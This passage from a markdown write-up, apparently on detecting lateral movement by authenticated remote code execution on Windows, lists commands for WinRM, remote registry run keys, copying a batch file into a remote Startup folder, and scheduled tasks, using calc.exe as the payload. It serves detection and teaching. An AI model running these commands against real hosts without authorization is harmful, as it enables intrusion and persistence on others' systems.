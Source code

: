  
The logs reveal that the service was installed successfully:

![](images/Tracking%20Lateral%20Movement%20By%20Authenticated%20RCE/image032.png)<br><br>

And that even though the service temporarily started and exited, the command still ran on the remote system::

![](images/Tracking%20Lateral%20Movement%20By%20Authenticated%20RCE/image033.png)<br><br>


## Windows Remoting

Windows Remote Management (WinRM) can be called with the `winrm` command or various PowerShell cmdlets: 

|||
|-|-|
|winrs|`winrs -r:<remotehost> powershell -c calc.exe`|
|PowerShell|`Invoke-Command <remotehost> -Command {powershell -c calc.exe}`|

<br>

## Remote Registry

Windows registry editor `reg.exe` can be used to modify run keys on remote systems to execute code at user logon:

```powershell
reg add \\<remotehost>\\HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v keyname /t REG_SZ /d "powershell -c calc.exe"
```

<br>

## Remote File Access

Access to a remote host's filesystem can be used to execute code via service modification, DLL hijack, logon script, etc.:

```powershell
xcopy malware.bat "\\<remotehost>\C$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\malware.bat"
```

<br>


## Task Scheduler

|||
|-|-|
|`schtasks.exe`|`schtasks /create /tn test /tr "cmd /c powershell -c calc.exe" /sc once /st 07:00 /S <remotehost> /RU System` `schtasks /run /tn test /S <remotehost>`|
|`at.exe`|`at \\<remotehost> 07:00 "cmd /c powershell -c calc.exe"`|

